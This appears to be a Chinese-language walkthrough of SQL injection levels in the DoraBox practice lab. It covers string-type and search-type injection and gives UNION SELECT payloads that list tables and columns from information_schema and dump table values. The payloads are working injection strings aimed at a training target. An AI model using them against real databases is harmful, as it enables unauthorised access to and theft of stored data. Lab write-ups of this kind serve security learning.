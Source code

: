 ### 第二关，Sql注入字符型


这关和之前是差不多的，就是要闭合一下单引号即可

![image-20220226144539257](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261445380.png)

```
DoraBox' and '1'='2' union select 1,2,3'
```

![image-20220226144634958](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261446000.png)

#### 爆表:

```
DoraBox' and '1'='2' UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#
```

![image-20220226144816563](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261448631.png)

#### 爆列名:

```
DoraBox' and '1'='2' UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='news'#
```

![image-20220226144858626](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261448690.png)

#### 爆值：

DoraBox' and '1'='2' UNION SELECT 1,2,concat_ws('|',id,title,content) from news#

![image-20220226144927164](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261449209.png)

### 第二关,Sql注入搜索型

这里百分号和单引号都需要闭合

![image-20220226145003517](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261450574.png)

#### 爆表：

```
-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#
```



#### 爆列：

```
-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='pentest' and table_name='account'#
```
